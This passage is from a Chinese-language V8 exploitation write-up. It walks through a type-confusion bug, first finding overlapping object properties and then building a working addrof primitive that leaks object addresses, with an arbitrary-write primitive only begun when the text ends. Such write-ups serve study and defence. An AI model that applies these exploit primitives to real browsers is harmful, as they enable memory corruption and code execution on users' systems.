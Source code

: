```

print("step 1: check whether vulnerability exists");
check_vul();
print("[+] Finding Overlapping Properties...");
findOverlapping();
print(`[+] Properties b${p1} and p${p2} overlap!`);
```

很容易可以找到我们需要的两个属性。

```
[+] Finding Overlapping Properties...  
[+] Properties b12 and b21 overlap!
```

#### Addr Of

`Addrof`是一个在V8利用中很常见的原语，用来泄露一个`obj`的地址。当我们有类型混淆漏洞时，这个原语的实现就十分简单，在前面也介绍过。我们将上一步中得到的第一个属性记为`p1`，第二个属性记为`p2`，由于对`p1`的访问实际上是对`p2`内容的访问，设置属性`p1`为`Number`，属性`p2`为想要泄露地址的`Object obj`，通过读取`p1`就可以读取出`obj`的地址。

```
function addrof(obj) {
  eval(`
  function vuln(obj) {
    obj.a;
    this.Object.create(obj);
    return obj.b${p1}.x1;
  }
`);


  let values = [];
  values[p1] = { x1: 1.1, x2: 1.2 };
  values[p2] = { y: obj };

  for (let i = 0; i &lt; 10000; i++) {
    let res = vuln(getObj(values));
    if (res != 1.1) {
      print(`[+] Object Address: ${Int64.fromDouble(res).toString()}`);
      return res;
    }
  }
  throw "[!] AddrOf Primitive Failed"
}
```

上面的代码中，`vuln`函数访问了`p1`的`x1`，在产生优化之后，会访问到`p2`的`y`也就是`obj`，从而以浮点数返回`obj`的地址。

#### Arbitrary Write

同样，我们可以构造一个`Object`，如下面的`o`，其中的各个属性均为`Number`。

```
let o = { x1: 1.1, x2: 1.2 };
  values[p1] = o;
  values[p2] = obj;
```
